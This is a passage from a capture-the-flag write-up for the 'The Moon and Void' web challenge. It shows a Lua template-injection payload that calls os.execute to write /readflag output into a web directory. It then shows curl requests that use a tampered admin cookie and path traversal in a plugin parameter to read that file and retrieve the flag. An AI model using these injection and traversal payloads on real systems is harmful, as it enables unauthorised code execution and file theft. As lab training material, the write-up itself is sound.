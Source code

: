 
Let's capture the contents of `readflag` into a file using:

```
$lua{[[
os.execute("/readflag > /app/html/out.html")
]]}
```

We repeat the process and get the flag:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl --location --request POST 'https://moon-and-void.intent.ctf.today/plugin' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--header 'Cookie: access=qapwdadmin%0A' \
--data-urlencode 'plugin=../../../../../app/html/ihovpusnvnhrulyayjup.html'

<p></p>

┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl --location --request POST 'https://moon-and-void.intent.ctf.today/plugin' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--header 'Cookie: access=qapwdadmin%0A' \
--data-urlencode 'plugin=../../../../../app/html/out.html'
INTENT{1nj3ctiNg_iNTo_M00n_0rb1t_XFUwMDAxZjMxOA==}
```